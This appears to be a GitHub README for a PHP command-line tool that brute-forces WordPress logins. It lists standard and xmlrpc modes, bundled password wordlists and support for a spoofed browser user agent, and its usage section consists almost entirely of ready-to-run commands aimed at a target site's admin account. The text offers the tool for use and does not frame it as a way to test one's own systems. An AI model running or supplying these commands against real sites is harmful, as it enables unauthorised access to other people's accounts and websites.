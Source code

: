 # WordPress Brute Force Login

Install Requirement
-------------------
```bash
pkg install php
```

Features
--------
* Standard mode or xmlrpc brute force mode
* http and https protocols supported
* 3 file Wordlist Added up to 1000+ word

Usage
-----
* No Wordlist
```bash
php wp -t site.com -u admin -p admin
```
* Using Wordlist
```bash
php wp -t site.com -u admin -l pass.txt
```
* Custom User Agent
```bash
php wp -t site.com -u admin -l pass.txt -g="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.0.5 Safari/605.1.15"
```
